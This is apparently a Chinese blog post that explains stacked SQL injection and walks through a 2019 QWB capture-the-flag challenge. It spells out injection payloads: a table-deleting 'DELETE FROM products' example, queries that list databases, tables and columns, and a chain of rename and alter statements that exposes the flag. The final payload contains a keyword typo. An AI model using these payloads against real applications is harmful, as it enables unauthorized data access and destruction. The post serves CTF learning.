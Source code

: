```yaml
---
title: 堆叠注入
author: Troy3e
avatar: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/timg.jpg
authorLink: 
authorAbout: 
authorDesc: 
categories: 技术
comments: true
date: 2020-05-20 21:15:40
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/dsagseragera.jpg
---
```

堆叠注入原理
在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为：（因未对输入的参数进行过滤）Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

1、2019强网杯随便注
单引号注入，正常流程注入发现过滤了很多关键词，尝试堆叠注入，1’show databases;# 成功：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200520213524.png)
接着尝试爆表，1’show tables;#：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200520213534.png)
查询字段，0';show columns from `1919810931114514`;#
(注意对以数字为表名的表进行操作时，需要加上`符号)
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200520213544.png)
后面是学到的新姿势）
可以看到1919810931114514中有我们想要的flag字段，因为这里有两张表，回显内容肯定是从words这张表回显的，那怎么样才能让它回显flag所在的表呢？
从上面的查询结果来看，words有两列，id和data，而1919810931114514只有flag一个字段。虽然有强大的正则过滤，但没有过滤alert和rename关键字。
下面是从大佬那里学到的骚姿势 ：

将words表改名为word1或者其他名字
将1919810931114514表改为words表
在新的words表里插入一列id
将flag列改名为data

构造payload：
1’;rename table words to word1;rename table 1919810931114514 to words;alter table words add id int unsigned not Null auto_increment primary key; alert table words change flag data varchar(100);#


（遇到再补…）

